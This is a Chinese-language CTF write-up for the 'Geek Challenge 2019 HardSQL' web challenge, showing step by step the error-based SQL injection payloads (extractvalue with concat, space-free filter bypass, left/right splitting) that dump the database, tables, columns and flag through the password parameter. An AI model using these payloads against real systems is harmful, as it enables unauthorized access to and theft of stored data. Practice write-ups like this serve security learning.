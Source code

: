 ```yaml
---
title: 极客大挑战 2019 HardSQL
date: 2022-05-28 22:18:38
toc: false
tags:
- SQL注入
categories: CTF-Web
my: HardSQL
---
```


看题目就是熟悉的SQL注入

尝试万能密码

![](https://nssctf.wdf.ink/img/xmj/image-20220528222128869.png)

尝试联合注入

![](https://nssctf.wdf.ink/img/xmj/image-20220528222128869.png)

尝试报错注入

![](https://nssctf.wdf.ink/img/xmj/image-20220528222245314.png)

发现注入点在password

爆出数据库名

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(database()))))%23
```



![](https://nssctf.wdf.ink/img/xmj/image-20220528222336896.png)

爆出表名

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222459600.png)

爆字段

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222528162.png)

爆值

```
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222545921.png)

这只有一半我们利用`left(),right()}`

```pgsql
/check.php?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(H4rDsq1))))%23

```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222950079.png)

```pgsql
/check.php?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528222958839.png)

这里注意观察中间有重复部分去掉后拼接到一起就是flag
